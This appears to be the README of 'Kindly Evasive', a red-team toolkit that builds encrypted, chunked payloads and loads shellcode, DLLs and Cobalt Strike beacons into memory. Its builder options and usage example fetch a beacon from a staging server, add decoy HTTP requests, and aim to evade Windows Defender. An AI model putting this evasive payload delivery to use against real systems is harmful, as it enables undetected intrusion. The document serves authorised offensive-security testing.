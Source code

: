 

# Kindly Evasive

<div align="center">
  <img src="assets/kindlyevasive.jpg" width="25%" /><br />
</div>

<div align="center">
  <h1>Kindly Evasive</h1>
  <br/>

**Kindly Evasive** is a post-exploitation and Initial Access Payload (IAP) toolkit created by <a href="https://github.com/rottaj">@rottaj</a>
<br> It's designed for building and injecting payloads evasively into memory. It allows you to efficiently manage payloads, facilitating seamless operations during engagements.

> :warning: The use of this tool for malicious purposes is illegal and unethical. Always ensure that you have explicit permission to use this tool in any environment.

</div>


## Features

### Builder
- **Payload Creation:** Build and inject payload configurations into a custom PE section that loads them upon execution.
- **Payload Source:** Load unencrypted payloads from your local computer or a remote server.
- **Payload Encryption:** Encrypt payloads using various encryption methods.
- **Chunking:** Optionally separate the payload into multiple files (chunks) for enhanced flexibility.

### Payload Options
- **Shellcode Injection:** Support for injecting shellcode.
- **In-Memory PE Loader:** Features a PE loader capable of loading EXE, DLL, and Cobalt Strike beacons.

## Builder Arguments

```plaintext
Usage: ./KindlyBuilder [options]

https://github.com/rottaj/KindlyEvasive

Options:
   --help                       Display this help message.
   --output-dir                 Full file path including file name to output payload to.
   --verbose                    Print verbose output
   --debug                      Enables breakpoints and console ouput on payload file.

Encryption Options:
   --encryption-method          XOR, AES, RC4.
   --encryption-key             Encryption key to be used.

Payload Input Options:
   --local-file                 Load unencrypted payload file from local computer. Argument is the full file path to the payload file.
   --remote-file                Fetch unencrypted payload file from remote server. Argument is the full URL to the server hosting the payload file.

Payload Features:
   --payload-type               raw, dll, beacon
   --dummy-fetch                Make HTTP requests to dummy API's alongside payload requests.

Payload Delivery Options:
   --staging-server             URL of web server used to host initial access payloads after build is complete.
   --payload-size               Size of payload (bytes)
   --chunk-count                Split encrypted payload into multiple files. Example: -chunk 3 (will output 3 .bin files)
```


## Options

```plaintext
--help                       Display this help message.
--output-dir                 Full file path including file name to output payload to.
--verbose                    Print verbose output.
--debug                      Enables breakpoints and console output on the payload file.
```

### Encryption Options
```plaintext
--encryption-method          Specify encryption method (XOR, AES, RC4).
--encryption-key             Set the encryption key to be used.
```

### Payload Input Options
```plaintext
--local-file                 Load unencrypted payload file from local computer. Argument is the full file path to the payload file.
--remote-file                Fetch unencrypted payload file from remote server. Argument is the full URL to the server hosting the payload file.
```

### Payload Features
```plaintext
--payload-type               Specify type of payload (raw, dll, beacon).
--dummy-fetch                Make HTTP requests to dummy APIs alongside payload requests.
```

### Payload Delivery Options
```plaintext
--staging-server             URL of web server used to host initial access payloads after build is complete.
--payload-size               Size of payload in bytes.
--chunk-count                Split encrypted payload into multiple files. Example: --chunk 3 (will output 3 .bin files).
```

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/rottaj/KindlyEvasive.git
   cd KindlyEvasive 
   ```

2. Install required dependencies (if any).

3. Build the toolkit:
   ```bash
   cd KindlyBuilder
   cmake 
   ```

## Usage

To get started with Kindly Evasive, run the following command:

```bash
.\KindlyBuilder -h

.\KindlyBuilder.exe --output-dir C:\Payloads\testing.exe --encryption-method XOR --remote-file http://192.168.1.124:8080/beacon_x64.bin 
--payload-size 304128 --payload-type beacon --staging-server http://192.168.1.124:8080/ --chunk-count 3
```

## KindlyEvasive in action

:point_down: Some Gifs might take a some time to load.  :point_down:
![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Builder.png?raw=true)
![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Delivery.gif?raw=true)
![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Beaconing.gif?raw=true)
![alt text](https://github.com/rottaj/KindlyEvasive/blob/main/assets/Defender.png?raw=true)

## Disclaimer
Use this software responsibly and only in environments where you have legal permission.<br>
The author of this tool is not responsible for any misuse or damages caused.

## Contributing

Contributions are welcome! Please fork the repository and submit a pull request for any features or improvements.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

---

For any questions or support, feel free to open an issue in the repository or reach out to the maintainers. Happy testing!
